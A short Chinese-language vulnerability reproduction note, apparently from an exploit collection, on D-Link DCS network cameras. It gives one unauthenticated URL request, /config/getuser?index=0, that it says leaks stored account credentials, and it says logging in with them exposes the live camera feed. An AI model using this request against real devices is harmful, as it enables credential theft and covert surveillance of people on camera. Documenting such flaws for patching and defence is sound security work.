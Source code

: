 # 0x00 软件介绍
D-Link DCS系列：D-Link是一家台湾科技公司，中文名：友讯科技，其旗下的DCS系列是畅销的网络摄像机

# 0x01 复现环境
复现环境：本地环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
CS-2530L  
DCS-2670L  
DCS-4603  
DCS-4622  
等多个DCS系列系统

# 0x04 漏洞复现
访问http://xxx.xxx.xxx.xxx/config/getuser?index=0会泄露账号和密码

使用账号密码登陆后即可查看摄像头的监控画面  
![image](./pic/0.png)

# 0x05 批量脚本
无

# 0x06 参考链接
https://mp.weixin.qq.com/s/b7jyA5sylkDNauQbwZKvBg
